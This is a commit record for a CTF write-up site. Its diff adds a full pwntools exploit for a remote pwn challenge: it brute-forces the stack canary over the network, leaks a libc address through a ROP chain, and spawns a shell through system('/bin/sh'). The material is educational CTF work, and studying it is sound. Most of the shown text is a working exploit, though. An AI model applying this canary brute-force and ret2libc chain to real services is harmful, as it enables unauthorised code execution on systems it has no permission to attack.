

Before and after one commit to andrei2308/ctf-challenges, an MkDocs documentation site: the page built from docs/cyberedu/pwn/off/description.md, in a window 1280 px wide and 1400 px high, scrolled down 2331 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; before the commit the page ends 2512 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Add exploit script for remote pwn challenge
Added a complete exploit script for remote exploitation, including functions for brute-forcing the canary and sending payloads.

````diff
--- a/docs/cyberedu/pwn/off/description.md
+++ b/docs/cyberedu/pwn/off/description.md
@@ -87,3 +87,132 @@ payload = flat(
 Here is the final solution:
 
 ```python
+from pwn import *
+import sys
+
+exe = ELF('./pwn')
+context.binary = exe
+context.log_level = 'info'
+context.arch = 'amd64'
+# p = process([exe.path])
+p = remote('35.242.228.114',32241)
+# Bad characters for scanf (Whitespace)
+bad_chars = [0x09, 0x0a, 0x0b, 0x0c, 0x0d, 0x20]
+# bad_chars = [0xa]
+def is_safe_addr(addr):
+    """Checks if an address contains any bad characters."""
+    addr_bytes = p64(addr)
+    for b in addr_bytes:
+        if b in bad_chars:
+            return False
+    return True
+
+def brute_force_canary():
+    p.recvuntil(b"What do you want to do?\n")
+    canary = b""
+    log.info("Starting Canary Brute-force...")
+
+    for i in range(8):
+        found_byte = False
+        for byte in range(256):
+            if i == 0 and byte != 0: continue
+            if byte in bad_chars: continue # Skip whitespace
+
+            try:
+                p.recvuntil(b"I'm here to serve you. :-)\n")
+            except EOFError:
+                log.critical("Parent process died!")
+                sys.exit(1)
+
+            guess = bytes([byte])
+            payload = b"A" * 1032 + canary + guess
+            p.sendline(payload)
+
+            try:
+                response = p.recvuntil(b"Done for this round", timeout=0.05)
+                if b"Done for this round" in response:
+                    canary += guess
+                    log.success(f"Byte found: {hex(byte)} | Canary: {canary.hex()}")
+                    found_byte = True
+                    break
+            except:
+                pass
+        if not found_byte:
+            log.error("Failed to find byte! Canary contains a bad char.")
+            sys.exit(1)
+
+    return canary
+
+# 1. get Canary
+canary = brute_force_canary()
+
+# canary = p64(0x001a56e396efd18d)
+log.success(f"Final Canary: {canary.hex()}")
+
+ret_gadget = 0x00000000004005f1
+pop_rdi_ret_gadget = 0x00000000004009b3
+entry_address = 0x004006a0
+puts_got = exe.got['puts']
+puts_plt = exe.plt['puts']
+
+
+payload = b'b' * 1032 # pad
+payload += canary # leave canary intact
+payload += b'c' * 8 # fill rbp
+payload += p64(pop_rdi_ret_gadget) # pop puts got into the rdi
+payload += p64(puts_got) # pointer to the real address
+payload += p64(puts_plt)
+payload += p64(entry_address)
+
+p.sendlineafter("I'm here to serve you. :-)\n",payload)
+
+# get the puts address
+log.info("Payload sent. Parsing leak...")
+
+try:
+    p.recvuntil(b'b' * 1032)
+
+    p.recv(1)
+
+    leak_data = p.recvline().strip()
+
+    if not leak_data:
+        log.error("Leak data is empty!")
+        sys.exit(1)
+
+    puts_leak = u64(leak_data.ljust(8, b"\x00"))
+    log.success(f"Leaked puts address: {hex(puts_leak)}")
+
+except Exception as e:
+    log.error(f"Failed to parse leak: {e}")
+    sys.exit(1)
+
+
+# pwn that shit
+
+# now we will guess the offsets
+puts_offset = 0x6f690
+system_offset = 0x45390
+str_bin_sh_offset = 0x18cd57
+# these are for local testing
+# puts_offset = 0x080e50
+# system_offset = 0x050d70
+# str_bin_sh_offset = 0x1d8678
+
+libc_base_addr = puts_leak - puts_offset
+system_address = libc_base_addr + system_offset
+str_bin_sh_addr = libc_base_addr + str_bin_sh_offset
+
+payload = b'p' * 1032 # reach canary
+payload += canary # keep intact
+payload += b'w' * 8 # fill rbp with trash
+payload += p64(ret_gadget)
+payload += p64(pop_rdi_ret_gadget)
+payload += p64(str_bin_sh_addr)
+payload += p64(system_address)
+
+# pwned
+p.sendlineafter(b"I'm here to serve you. :-)\n",payload)
+
+p.interactive()
+```
````
